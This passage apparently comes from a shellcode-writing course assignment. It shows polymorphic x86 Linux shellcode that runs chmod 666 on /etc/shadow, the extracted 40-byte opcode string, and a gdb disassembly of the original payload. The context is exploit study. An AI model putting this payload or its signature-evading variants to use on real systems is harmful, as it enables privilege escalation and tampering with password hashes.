 ```nasm
  cdq
  push ecx  ;null terminate
  push word 0x776f  ; wo
  push word 0x6461  ; da
  push word 0x6873  ; hs
  push word 0x2f63  ; /c
  push word 0x7465  ; te
  push word 0x2f2f  ; //
  mov ebx, esp  ;stack pointer
  mov cx, 0666o ; permissions 666
  int 0x80
```

#### Compiling the Polymorphic Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ ./compile.sh chmod
[+] Assembling with Nasm
[+] Linking
[+] Extracting Opcodes
"\xb0\x08\x00\xc0\xfe\xc8\x99\x51\x66\x68\x6f\x77\x66\x68\x61\x64\x66\x68\x73\x68\x66\x68\x63\x2f\x66\x68\x65\x74\x66\x68\x2f\x2f\x89\xe3\x66\xb9\xb6\x01\xcd\x80"
[+] Size: 40 bytes
skawa@ubuntu:~/Desktop/code/assignment/assignment6$
```

#### Disassembly of the Original Shellcode

```nasm
skawa@ubuntu:~/Desktop/code/assignment/assignment6$ gdb -q ./chmod-original
Reading symbols from /home/skawa/Desktop/code/assignment/assignment6/chmod-original...(no debugging symbols found)...done.
(gdb) break _start
Breakpoint 1 at 0x8048080
(gdb) run
Starting program: /home/skawa/Desktop/code/assignment/assignment6/chmod-original

Breakpoint 1, 0x08048080 in _start ()
(gdb) disas
Dump of assembler code for function _start:
=> 0x08048080 <+0>:	mov    al,0xf
   0x08048082 <+2>:	cdq    
   0x08048083 <+3>:	push   edx
   0x08048084 <+4>:	push   0x776f6461
   0x08048089 <+9>:	push   0x68732f63
   0x0804808e <+14>:	push   0x74652f2f
   0x08048093 <+19>:	mov    ebx,esp
   0x08048095 <+21>:	mov    cx,0x1b6
   0x08048099 <+25>:	int    0x80
End of assembler dump.
(gdb) break *0x08048099
Breakpoint 2 at 0x8048099
(gdb) c
Continuing.

Breakpoint 2, 0x08048099 in _start ()
(gdb) i r
eax            0xf	15
ecx            0x1b6	438
edx            0x0	0
ebx            0xbffff6f0	-1073744144
esp            0xbffff6f0	0xbffff6f0
ebp            0x0	0x0
esi            0x0	0
edi            0x0	0
```